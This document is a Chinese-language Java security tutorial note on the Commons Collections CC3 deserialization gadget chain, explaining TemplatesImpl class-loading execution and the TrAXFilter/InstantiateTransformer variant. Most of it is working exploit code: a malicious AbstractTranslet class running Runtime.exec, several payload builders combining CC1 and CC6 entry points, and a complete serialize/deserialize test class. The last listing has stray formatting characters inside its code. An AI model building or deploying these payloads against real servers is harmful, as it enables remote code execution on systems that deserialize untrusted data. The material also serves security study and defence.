# 06 · 反序列化链 · CC3

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；执行段从 Runtime.exec 换成 TemplatesImpl 类加载，后面的 CC4/CC2 都复用这一段

不同与前面的两条链都是直接调用`Runtime.getRuntime()`来执行命令，CC3修改的链的后部分，也就是利用部分，CC3是通过类加载机制来执行的命令

## 类加载机制

- 类加载的时候会执行代码

  - 初始化的时候执行静态代码块
  - 实例化的时候执行构造代码块、无参构造函数

- 所以要加载类里面有执行命令的代码，也就是加载恶意代码块，如下代码就是在静态代码块中写入执行命令的代码

  ```java
  public class Calc {
      static {
          try {
              Runtime.getRuntime().exec("calc");
          } catch (IOException e) {
              throw new RuntimeException(e);
          }
      }
  ```

- 类的加载最终是通过`defineClass()`完成的，整个调用过程是`loadClass()->findClass()->defineClass()`

- 但`defineClass()`只是加载类，而不是执行类，所以最后的执行方法是`newInstance()`

## 链的基本逻辑

- 还是由后往前推，因为`defineClass()`的作用域是`protected`所以要找到作用域是`public`的类

  

- 同样是Find Usages，最后找到`TemplatesImpl类`，这里`defineClass()`没有声明作用域，也就是default，可以在自己的类中被调用

  

- 继续Find Usages，发现`defineClass()`在`defineTransletClasses()`中被调用

  

- 但该方法被声明为私有，继续找，然后选择`getTransletInstance()`，因为它调用了`defineTransletClasses()`，而且使用了`newInstance()`进行实例化，也就是有了利用方法，虽然作用域是私有的，但若能调用此方法便完成了一条利用链

  

- 继续寻找，成功找到公有方法，开始构造链

  

- 链条利用部分的逻辑很简单，获取`TemplatesImpl类`，然后调用其下的`newTransformer()`即可，也就是如下代码

  ```java
  TemplatesImpl templates = new TemplatesImpl();
  templates.newTransformer();
  ```

- 但为了达成这个逻辑中间有一些条件判断的逻辑需要满足，所以要修改一些参数值，这个类只将参数声明为私有的，并没有做赋值处理，且构造方法也为空，所以要通过反射修改参数值，还是从后往前一步一步完成，首先是`getTransletInstance()`

  

  - 首先第一个if处要对`_name`赋值，否则直接返回null，然后是不用处理`_class`，此处该参数值默认为null，所以此处代码为

    ```java
    Field name = templatesClass.getDeclaredField("_name");
    name.setAccessible(true);
    name.set(templates, "name");
    ```

    

- 然后进入`defineTransletClasses()`，此方法要修改的地方挺多的

  - 首先是第一处，`_bytecodes`，不能为空

    

  - 来看一下该参数的声明，是一个二维数组，但它在后面又是作为一维数组传入作为`defineClass()`的值，且里面要存放恶意字节码

    

    

  - 所以整个逻辑是将恶意字节码传入一维数组，再将整个参数声明为二维数组，也就是如下代码

    ```java
    Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
    bytecodes.setAccessible(true);
    byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
    byte[][] codes = {code};
    bytecodes.set(templates, codes);
    ```

  - 然后是要修改的第二处地方，`_tfactory`也不能为空，因为此参数调用了方法，并作为返回结果一部分，影响代码的往下运行

    

  - 同样看参数的声明，是`transient`类型，也就是不可序列化，但既然此参数有作用，就必然会在某处传入值，最后在·`readObject()`处找到，也就是在反序列化时会自动赋值

    

  - 所以赋相同的值即可，代码如下

    ```java
    Field tfactory = templatesClass.getDeclaredField("_tfactory");
    tfactory.setAccessible(true);
    tfactory.set(templates, new TransformerFactoryImpl());
    ```

  - 按理讲整个代码的逻辑已经可以执行，但实际上还是报错，显示在422行也就是如下位置

    

  - 此处报了空指针错误，所以最简单的处理方法就是赋值，或是满足if条件不进入else代码块，但往下的if条件若`_transletIndex < 0`就抛出异常，所以需要进入第一个if中，因为此时`_transletIndex `值为-1，而进入if中参数值等于i也就是0，若要满足条件则写入的恶意字节码的父类要为*ABSTRACT_TRANSLET*，跟进查看

    

  - 所以修改字节码代码为，要继承抽象类则要满足其中的全部方法

    ```java
    package Loader;
    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    
    import java.io.IOException;
    
    public class Calc extends AbstractTranslet{
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    
        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    
        }
    
        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    
        }
    }
    
    ```

  - 最后整个代码就能成功执行了

- 以上完成了链子的后部分也就是执行部分，前半的入口部分可以用CC1及CC6的共计3钟实现方式

  - 首先是通用链CC6部分

    ```java
            TemplatesImpl templates = new TemplatesImpl();
            Class templatesClass = templates.getClass();
    
            Field name = templatesClass.getDeclaredField("_name");
            name.setAccessible(true);
            name.set(templates, "name");
    
            Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
            bytecodes.setAccessible(true);
            byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
            byte[][] codes = {code};
            bytecodes.set(templates, codes);
    			//这里不用为_tfactory赋值，因为反序列化时会自动赋值
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(templates),
                //newTransformer为无参方法，所以参数类型和参数都为空即可
                    new InvokerTransformer("newTransformer", null, null)
            };
            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    
            HashMap<Object, Object> map = new HashMap<>();
            Map lazymap = LazyMap.decorate(map, chainedTransformer);
    
            TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "key");
    
            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put(tiedMapEntry, "value");
    
            Class<TiedMapEntry> tiedMapEntryClass = TiedMapEntry.class;
            Field field = tiedMapEntryClass.getDeclaredField("map");
            field.setAccessible(true);
            field.set(tiedMapEntry, lazymap);
    
            serialize(hashMap);
            deserialize("ser3.bin");
    ```

  - CC1的原生版本

    ```java
            TemplatesImpl templates = new TemplatesImpl();
            Class templatesClass = templates.getClass();
    
            Field name = templatesClass.getDeclaredField("_name");
            name.setAccessible(true);
            name.set(templates, "name");
    
            Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
            bytecodes.setAccessible(true);
            byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
            byte[][] codes = {code};
            bytecodes.set(templates, codes);
    			//这里不用为_tfactory赋值，因为反序列化时会自动赋值
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(templates),
                //newTransformer为无参方法，所以参数类型和参数都为空即可
                    new InvokerTransformer("newTransformer", null, null)
            };
            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    
            HashMap<Object, Object> map = new HashMap<>();
            map.put("value", "123");
            Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
    
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
            declaredConstructor.setAccessible(true);
            Object o = declaredConstructor.newInstance(Target.class, transformedmap);
    
            serialize(o);
            deserialize("ser3.bin");
    ```

  - CC1的动态代理版本

    ```java
            TemplatesImpl templates = new TemplatesImpl();
            Class templatesClass = templates.getClass();
    
            Field name = templatesClass.getDeclaredField("_name");
            name.setAccessible(true);
            name.set(templates, "name");
    
            Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
            bytecodes.setAccessible(true);
            byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
            byte[][] codes = {code};
            bytecodes.set(templates, codes);
    			//这里不用为_tfactory赋值，因为反序列化时会自动赋值
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(templates),
                //newTransformer为无参方法，所以参数类型和参数都为空即可
                    new InvokerTransformer("newTransformer", null, null)
            };
            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    
            HashMap<Object, Object> map = new HashMap<>();
            Map lazymap = LazyMap.decorate(map, chainedTransformer);
    
                    Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
            declaredConstructor.setAccessible(true);
            InvocationHandler invocationhandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, lazymap);
            Map proxymap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationhandler);
            Object o = declaredConstructor.newInstance(Override.class, proxymap);
    
            serialize(o);
            deserialize("ser3.bin");
    ```

## yso利用逻辑

以上的部分已经可以实现此链条了，但在yso中的CC3利用链的实现逻辑还要更深入一些、

- 首先链条的最后也就是要执行`newTransformer()`，所以还可以继续追踪此方法，最后作者选定的是`TrAXFilter类`

  

- 此类虽然不能序列化，但其templates可以传参控制，所以可以如Runtime一样将其`TrAXFilter.class`序列化

- 然后作者也没有选择调用`InvokerTransformer`，而是选择一个新类`InstantiateTransformer`

  

- 可以看到此类不仅可以获取指定参数的构造器还能调用构造方法，所以只需修改为如下代码便能调用执行

  ```java
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
          Field tfactory = templatesClass.getDeclaredField("_tfactory");
          tfactory.setAccessible(true);
          tfactory.set(templates, new TransformerFactoryImpl());        
  		InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
          instantiateTransformer.transform(TrAXFilter.class);
  ```

- 最后同样是拼接CC1或CC6的前部分即可，但也同样报了与CC1的参数不可空问题，所以还是要传入Transformer数组，修改如下

  ```java
  Transformer[] transformers = new Transformer[] {
      //保证反序列化时参数传入的是TrAXFilter.class
  new ConstantTransformer(TrAXFilter.class),
  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
  };
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  ```

- 最后只给出最通用的版本

  ```java
  package CC3;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
  import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InstantiateTransformer;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  import org.apache.commons.collections.map.TransformedMap;
  
  import javax.xml.transform.Templates;
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC3Test {
      public static void main(String[] args) throws Exception {
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
  ​        Field name = templatesClass.getDeclaredField("_name");
  ​        name.setAccessible(true);
  ​        name.set(templates, "name");
  
  ​        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
  ​        bytecodes.setAccessible(true);
  ​        byte[] code = Files.*readAllBytes*(Paths.*get*("D:\\Loader\\Calc.class"));
  ​        byte[][] codes = {code};
  ​        bytecodes.set(templates, codes);
  
  ​        Transformer[] transformers = new Transformer[] {
  ​                new ConstantTransformer(TrAXFilter.class),
  ​                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
  ​        };
  ​        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
  ​        HashMap<Object, Object> map = new HashMap<>();
  ​        Map lazymap = LazyMap.*decorate*(map, chainedTransformer);
  ​        map.put("value", "123");
  ​        Map<Object, Object> transformedmap = TransformedMap.*decorate*(map, null, chainedTransformer);
  
  ​        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "key");
  
  ​        HashMap<Object, Object> hashMap = new HashMap<>();
  ​        hashMap.put(tiedMapEntry, "value");
  
  ​        Class<TiedMapEntry> tiedMapEntryClass = TiedMapEntry.class;
  ​        Field field = tiedMapEntryClass.getDeclaredField("map");
  ​        field.setAccessible(true);
  ​        field.set(tiedMapEntry, lazymap);
  
          *serialize*(hashMap);
          *deserialize*("ser3.bin");
      }
  
  ​    public static void serialize(Object obj) throws IOException {
  ​        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser3.bin"));
  ​        oos.writeObject(obj);
  ​    }
  
  ​    public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
  ​        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
  ​        Object o = ois.readObject();
  ​        return o;
  ​    }
  }
  ```


- Gadget

  ```java
  HashMap.readObject()
      HashMap.hash()
      	TiedMapEntry.hashCode()
      		TiedMapEntry.getValue()
      			LazyMap.get()
      				ChainedTransformer.transform()
      					ConstantTransformer.transform()
      					InstantiateTransformer.transform()
      						TemplatesImpl.newTransformer()
      							defineClass->newInstance()
  ```
